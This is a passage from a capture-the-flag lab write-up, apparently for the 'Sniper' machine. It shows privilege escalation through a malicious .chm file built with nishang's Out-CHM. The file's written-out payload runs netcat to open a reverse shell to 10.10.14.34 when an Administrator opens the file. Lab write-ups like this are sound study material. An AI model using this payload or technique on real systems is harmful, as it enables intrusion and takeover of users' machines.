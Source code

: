 There's also an instructions.chm in Chris Documents folder....

⇒ Looks like we have to place an .chm file in the Docs folder which will be opened by the Administrator .

→ Creating malicious .chm file using nishang :

Link : [https://github.com/samratashok/nishang/blob/master/Client/Out-CHM.ps1](https://github.com/samratashok/nishang/blob/master/Client/Out-CHM.ps1)

**Out-CHM -Payload "C:\Windows\System32\spool\drivers\color\nc.exe 10.10.14.34 5555 -e cmd.exe" -HHCPath "C:\Program Files (x86)\HTML Help Workshop"**

Uploaded it to the folder :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Sniper%20Box%206cf4da7753cb4488ad5492ba2cc6dac2/Untitled%2019.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Sniper%20Box%206cf4da7753cb4488ad5492ba2cc6dac2/Untitled%2019.png)

→ Waited for some time and we get reverse shell as Administrator :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Sniper%20Box%206cf4da7753cb4488ad5492ba2cc6dac2/Untitled%2020.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Sniper%20Box%206cf4da7753cb4488ad5492ba2cc6dac2/Untitled%2020.png)

